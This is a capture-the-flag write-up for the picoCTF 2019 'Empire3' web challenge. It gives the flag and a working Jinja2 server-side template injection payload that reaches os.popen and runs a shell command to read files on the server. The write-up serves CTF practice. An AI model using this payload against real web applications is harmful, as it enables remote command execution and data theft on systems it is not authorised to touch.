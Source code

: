 # Empire3 - 500 points
## Description

Agent 513! One of your dastardly colleagues is laughing very sinisterly! Can you access his todo list and discover his nefarious plans? `https://2019shell1.picoctf.com/problem/32252/` ([link](https://2019shell1.picoctf.com/problem/32252/)) or http://2019shell1.picoctf.com:32252

## Flag
```
picoCTF{cookies_are_a_sometimes_food_dd5a4e43}
```

## Solution

Empire2 had gone by pretty quickly. At this point, I just wanted to confirm to myself that they followed the pattern of the other two Empire challenges and had used a new vulnerability in the cards/todo titles.

I plugged in `{{ 2 + 2 }} '` to see how it would behave, and to my surprise, it was vulnerable to SSTI again.

The next thing I did was to throw in my payload from [Empire2](../Empire2/README.md). I was just hoping to get lucky:

```
{{ g.__class__.__mro__[1].__subclasses__()[117].__init__.__globals__['sys'].modules['os'].popen("cat $(find . -type f) | grep picoCTF").read() }}
```

![./flag.png](flag.png)

Seriously? That was easy. I solved it in like 30 seconds by reusing the payload. I guess I complicated Empire2 more than I needed to or something. Oh well. Easy 1.5k points.
